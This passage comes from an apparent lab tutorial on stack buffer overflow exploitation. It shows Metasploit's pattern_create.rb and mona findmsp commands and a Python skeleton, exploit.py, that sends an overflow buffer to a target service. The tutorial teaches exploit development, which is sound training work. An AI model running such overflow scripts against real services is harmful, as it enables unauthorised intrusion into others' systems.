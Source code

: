 In other words, it will help us to determine the _offset_ of the vulnerable app. To generate a cyclic pattern for our vulnerable app, we can use the following command:

> `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <APP CRASHED BYTES> + 400`

It will generate a list of characters which should look like this:

![Pasted image 20230731122607](https://github.com/ArtyETH06/artyeth06.github.io/assets/107058122/08fe0873-ea99-4e01-8f99-5fd81b8ba0fa)

## Offset

Now that we generated our *cyclic pattern*,we need to find the *offset* (wich will help us to control the vulnerable app).
To do so,we can create a `exploit.py` script:

```python
import socket  
  
ip = "YOUR MACHINE IP"  
port = PORT
  
prefix = "OVERFLOW1 " #Again this is in my case  
offset = 0  
overflow = "A" * offset  
retn = ""  
padding = ""  
payload = "Paste the cyclic pattern that we generated"  
postfix = ""  
  
buffer = prefix + overflow + retn + padding + payload + postfix  
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
  
try:  
  s.connect((ip, port))  
  print("Sending evil buffer...")  
  s.send(bytes(buffer + "\r\n", "latin-1"))  
  print("Done!")  
except:  
  print("Could not connect.")
```
(Or you can directly dowload it from this link: https://artyeth06.github.io/useful-files/exploit.py)
We can now run this script (with the vulnerable app running)

![Pasted image 20230731123138](https://github.com/ArtyETH06/artyeth06.github.io/assets/107058122/519a8ed6-82de-4572-bbd7-9f238d887fb7)

You will see that the app **crashes**, which is normal: 
![Pasted image 20230731123158](https://github.com/ArtyETH06/artyeth06.github.io/assets/107058122/18ada4d2-5cfc-4fe5-bf24-4df03a959d7b)

Now, the final step to find the _offset_ of the vulnerable app is to use this command:

> `!mona findmsp -distance <crashed_at + 400>`
